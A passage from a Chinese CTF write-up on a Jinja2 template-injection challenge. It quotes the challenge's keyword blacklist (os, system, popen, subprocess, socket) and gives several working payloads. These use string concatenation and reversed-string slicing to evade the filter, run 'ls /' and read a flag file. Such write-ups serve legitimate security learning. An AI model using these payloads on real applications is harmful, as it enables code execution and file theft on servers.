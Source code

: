 至于catch_warnings，他似乎是python获取警告的一个类还是什么，基本不用改变。


话说回来：这里看到waf过滤，整理了一下：

def waf(str):
    black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
    for x in black_list :
         if x in str.lower() :
         return 1

可以看到，flag，*这些都被过滤了，system也没能幸免，这导致我们常用的命令不能读取，那么如同命令绕过一样，要么用等价函数，要么用拼接，编码等其他方式绕过，上面的连接也给了很多方法，这里用了大多数wp选择的字符串拼接：

两种方式：

https://blog.csdn.net/Hopeace/article/details/120770241

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}

https://blog.csdn.net/qq_45557476/article/details/124011030

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

可见用+号进行了拼接并回显了结果:


回显了根目录，主要是看到了flag文件：this_is_the_flag.txt

直接修改读取就行了：

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}



这里我看别人wp的时候发现还可以利用切片无需拼接：

https://www.cnblogs.com/sipc-love/p/14335283.html

在最后一步，利用[::-1]，把要读的文件反写，就绕过了大多函数，也只需要执行read和open

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}

